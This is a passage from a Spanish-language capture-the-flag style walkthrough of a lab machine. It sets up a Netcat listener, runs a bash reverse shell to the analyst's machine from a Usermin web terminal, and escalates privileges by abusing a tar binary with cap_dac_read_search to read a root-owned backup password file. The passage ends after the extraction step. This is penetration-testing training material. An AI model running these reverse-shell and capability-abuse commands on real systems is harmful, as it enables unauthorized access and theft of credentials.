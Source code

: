 #### Configuración del Listener
En la máquina de análisis se verificó la dirección IP mediante ifconfig, identificando la IP 192.168.0.11. Posteriormente se estableció un listener usando Netcat con el comando nc -lvp 443, configurándolo para escuchar conexiones entrantes en el puerto 443.

#### Ejecución de la Shell Reversa
Desde el terminal web del panel Usermin se ejecutó el payload de shell reversa: bash -i >& /dev/tcp/192.168.0.11/443 0>&1. Este comando establece una conexión bash interactiva que redirige tanto la entrada como la salida hacia la máquina atacante. La conexión se estableció exitosamente, proporcionando acceso directo al sistema como usuario "cyber".

### Fase de Escalada de Privilegios

#### Enumeración de Privilegios Actuales
Una vez establecida la shell reversa, se procedió a evaluar los privilegios disponibles para el usuario actual. El comando sudo -l no proporcionó resultados, indicando que el usuario "cyber" no tenía configuraciones especiales en el archivo sudoers.

#### Análisis de Capabilities del Sistema
Se ejecutó el comando getcap -r / 2>/dev/null para identificar binarios con capabilities especiales en el sistema. Las capabilities en Linux permiten otorgar privilegios específicos a binarios sin necesidad de ejecutarlos como root. El resultado mostró una configuración crítica: /home/cyber/tar cap_dac_read_search=ep.
La capability CAP_DAC_READ_SEARCH otorga al binario tar la capacidad de leer cualquier archivo del sistema, independientemente de sus permisos. Esta configuración representaba una oportunidad clara para la escalada de privilegios, ya que permitiría acceder a archivos sensibles normalmente protegidos.

#### Identificación del Objetivo de Escalada
La exploración del sistema reveló el directorio /var/backups, una ubicación común para archivos de respaldo que frecuentemente contienen información sensible. Al ejecutar ls -la en este directorio se identificó el archivo oculto .old_pass.bak, propiedad del usuario root con permisos restrictivos que impedían su lectura directa.
El nombre del archivo sugería que contenía una contraseña de respaldo, posiblemente la del usuario root. La presencia de este archivo en combinación con las capabilities del binario tar presentaba una ruta clara hacia la escalada de privilegios.

### Explotación de Capabilities

#### Metodología de Explotación
Para explotar las capabilities del binario tar y acceder al contenido del archivo protegido, se empleó una técnica que aprovecha la capacidad de lectura arbitraria. El proceso involucró crear un archivo comprimido del objetivo usando las capabilities elevadas, para luego extraerlo con permisos del usuario actual.

#### Ejecución de la Explotación
Desde el directorio home del usuario cyber (/home/cyber), se ejecutó el comando ./tar -cf clave.tar /var/backups/.old_pass.bak. Este comando utiliza el binario tar con capabilities especiales para crear un archivo comprimido que incluye el archivo protegido. Debido a las capabilities CAP_DAC_READ_SEARCH, el binario pudo leer el archivo independientemente de los permisos restrictivos.
Posteriormente se ejecutó tar -xvf clave.tar para extraer el contenido del archivo comprimido. Esta operación creó una copia del archivo dentro de la estructura de directorios del usuario actual, donde sí se tenían permisos de lectura.
